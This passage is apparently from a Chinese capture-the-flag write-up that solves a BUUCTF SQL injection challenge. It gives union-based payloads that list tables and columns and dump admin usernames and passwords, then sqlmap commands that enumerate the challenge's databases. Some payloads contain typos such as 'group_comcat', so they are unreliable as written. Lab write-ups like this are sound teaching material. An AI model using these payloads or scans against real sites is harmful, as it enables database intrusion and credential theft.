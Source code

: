 得到

![img](https://s2.loli.net/2024/11/24/QThDRimZIjB85bN.png)

然后进行查表

```plain
?id = -1 union select 1,(select group_concat(table_name) from information_schema.tables where table_name = 'news')#
```

得到结果

![img](https://s2.loli.net/2024/11/24/Sc6IFN9DiXZJUWG.png)

```plain
?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='news' and table_column='admin')#
```

![img](https://s2.loli.net/2024/11/24/YFxKn16G35Plbz4.png)

```plain
?id=1 union select 1,(select group_comcat(username)from admin)#
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1723723949288-d3276e86-d809-4583-8848-9c15c7f139bb.png)

```plain
?id=1 union select 1,(select group_comcat(password)from admin)#
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1723723992527-d0f7c42f-14e9-4f46-a9f5-7362ae814f6b.png)

得到答案

#### sqlmap解题方法

找到?id=的url后进行扫描

python sqlmap.py -u "http://8a572774-1639-43bb-8ae0-f2c62808f55d.node5.buuoj.cn:81/backend/content_detail.php?id=1" -random-agent

成功注入

python sqlmap.py -u "http://8a572774-1639-43bb-8ae0-f2c62808f55d.node5.buuoj.cn:81/backend/content_detail.php?id=1" -random-agent-dbs

查看所有数据库

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1723728379645-bb7b3838-3e94-41ea-a413-7a4d628c9bbb.png)

-current-db查看当前

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1723728472443-f9d1041e-fed6-4713-a452-1f124bfb8e25.png)

逐步查看
